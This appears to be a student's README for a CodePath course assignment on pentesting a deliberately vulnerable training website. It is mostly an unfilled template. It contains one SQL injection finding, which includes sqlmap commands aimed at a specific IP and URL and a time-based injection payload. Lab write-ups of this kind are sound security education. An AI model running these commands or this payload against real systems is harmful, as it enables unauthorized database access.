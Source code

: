 # Week8-liveAttack
the is the week8 assignment for CodePath.
# Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL injection
Steps:
Go to the blue website without loging in click on find a sales person, open Sqlmap and run it against the given URL
sqlmap --url https://35.224.228.84/blue/public/salesperson.php?id=4 --dbs to check for Databases, the Sqlmap revealed 
7, available databases [7]. One of them is globitek_blue, run the command in Sqlmap against the given database 
sqlmap --url https://35.224.228.84/blue/public/salesperson.php?id=4 -D globitek_blue
Sqlmap found it vulnerable to SQL Injection with this given syntax id=4' OR SLEEP(5) AND 'ZAWi'='ZAWi
GIF Walkthrough:
![sqliblue](https://user-images.githubusercontent.com/30760006/37753372-c5a18d72-2d59-11e8-80e8-74fd7e36a817.gif)



Vulnerability #2: __________________


## Green

Vulnerability #1: __________________

Vulnerability #2: __________________


## Red

Vulnerability #1: __________________

Vulnerability #2: __________________


## Notes

Describe any challenges encountered while doing the work
